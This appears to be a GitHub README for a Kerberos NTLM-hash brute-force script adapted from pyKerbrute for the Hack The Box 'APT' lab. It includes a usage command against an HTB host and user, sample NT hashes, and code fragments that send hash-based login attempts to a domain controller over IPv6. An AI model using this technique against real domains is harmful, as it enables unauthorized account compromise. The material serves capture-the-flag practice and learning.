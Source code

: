 # NTLMhash bruteforce of kerberos login

I made modifications to ADPwdSpray.py (from [pyKerbrute](https://github.com/3gstudent/pyKerbrute)) for APT of HTB.

<br>

***I'm a beginner so there is still room for improvement.***

<br>

# usage

```
$ python brutehash.py dead:beef::b885:d62a:d679:573f htb.local henry.vinson ntlmhash hash.txt tcp
```

<br>

\*1 This scirt supports only ntlmhash mode and tcp mode of original ADPwdSpray.py

\*2 I used NThash list like following:

```
b300272f1cdab4469660d55fe59415cb
9ea25adafeec63e38cef4259d3b15c30
3ae49ec5e6fed82ceea0dc2be77750ab
```
# what I've modified

## ipv4 -> ipv6 (send_req_tcp)

```python
def send_req_tcp(req, kdc, port=88):
    data = encode(req)
    data = pack('>I', len(data)) + data
    # sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    # sock.connect((kdc, port))
    sock.connect((kdc, port, 0, 0))
    sock.send(data)
```

## last  part

```python
if __name__ == '__main__':
    kdc_a = sys.argv[1]
    user_realm = sys.argv[2].upper()
    user_name = sys.argv[3]

    file_object = open(sys.argv[5], 'r')

    for line in file_object:
        nthash = line.strip('\n')
        print(nthash)  # just show progress, you can remove this
        user_key = (RC4_HMAC, nthash.decode('hex'))
        passwordspray_tcp(user_realm, user_name, user_key, kdc_a, nthash)
```
## other

- I commentouted `from Crypto.Cipher import MD4, MD5` because of ImportError
- I deleted parts regarding UDP

### success example

![brutesuccess](https://user-images.githubusercontent.com/85237728/159254302-2faddcae-b655-4d30-94da-22f1e7b0fc05.png)

# note

- please use this brutehash.py in the directory where `pyasn1` and `_crypto` are otherwise **PyAsn1Error** may happen.
- even if a valid hash found, its bruteforce attack doesn't stop, so remove `print(nthash)` in last for loop or watch carefully or ...

